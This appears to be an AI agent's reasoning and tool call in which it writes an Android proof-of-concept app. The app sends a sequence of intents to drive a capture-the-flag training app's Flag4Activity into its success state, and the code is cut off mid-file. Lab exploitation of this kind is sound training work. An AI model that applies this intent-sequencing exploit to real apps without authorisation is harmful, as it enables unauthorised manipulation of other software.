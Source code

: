 --- Parsed Reasoning/Thought ---
**My Current Thought Process: Creating the Malicious Java Code**

Okay, the XML manifest file for the proof-of-concept is written. Now, the next logical move is to write the Java source code that will actually *do* the malicious deed – send the intents to trigger the vulnerability. I'm going to create `MaliciousFlag4PoC.java`.

The goal is pretty straightforward: craft a Java file that, when executed, will fire off the correct sequence of intents aimed at the `io.hextree.attacksurface.activities.Flag4Activity`'s `success(this)` method. I'll define this `MaliciousFlag4PoC.java` file and then use `write_to_file` within the sandbox to safely store it in the `Android-2` directory. This is a controlled write operation; no real risks here.

--- Tool Call ---
write_to_file({'content': 'package com.example.maliciousapp;\n'
            '\n'
            'import android.content.ComponentName;\n'
            'import android.content.Intent;\n'
            'import android.os.Bundle;\n'
            'import androidx.appcompat.app.AppCompatActivity;\n'
            'import android.util.Log;\n'
            '\n'
            'public class MaliciousFlag4PoC extends AppCompatActivity {\n'
            '\n'
            '    private static final String TARGET_PACKAGE = '
            '"io.hextree.attacksurface";\n'
            '    private static final String TARGET_ACTIVITY = '
            '"io.hextree.attacksurface.activities.Flag4Activity";\n'
            '\n'
            '    @Override\n'
            '    protected void onCreate(Bundle savedInstanceState) {\n'
            '        super.onCreate(savedInstanceState);\n'
            '        setContentView(R.layout.activity_main); // Assuming a '
            'default layout exists or is not strictly needed for intent '
            'sending\n'
            '\n'
            '        Log.d("MaliciousFlag4PoC", "Attempting to exploit '
            'Flag4Activity...");\n'
            '\n'
            '        // Step 1: Ensure INIT state (send an unknown action to '
            'reset if needed)\n'
            '        // This is optional but good for robustness if the state '
            'is not INIT initially\n'
            '        Intent resetIntent = new Intent();\n'
            '        resetIntent.setComponent(new '
            'ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));\n'
            '        resetIntent.setAction("UNKNOWN_ACTION_TO_RESET_STATE");\n'
            '        startActivity(resetIntent);\n'
            '        Log.d("MaliciousFlag4PoC", "Sent reset intent.");\n'
            '\n'
            '        // Step 2: Transition to PREPARE state\n'
            '        Intent prepareIntent = new Intent();\n'
            '        prepareIntent.setComponent(new '
            'ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));\n'
            '        prepareIntent.setAction("PREPARE_ACTION");\n'
            '        startActivity(prepareIntent);\n'
            '        Log.d("MaliciousFlag4PoC", "Sent PREPARE_ACTION.");\n'
            '\n'
            '        // Step 3: Transition to BUILD state\n'
            '        Intent buildIntent = new Intent();\n'
            '        buildIntent.setComponent(new '
            'ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));\n'
            '        buildIntent.setAction("BUILD_ACTION");\n'
            '        startActivity(buildIntent);\n'
            '        Log.d("MaliciousFlag4PoC", "Sent BUILD_ACTION.");\n'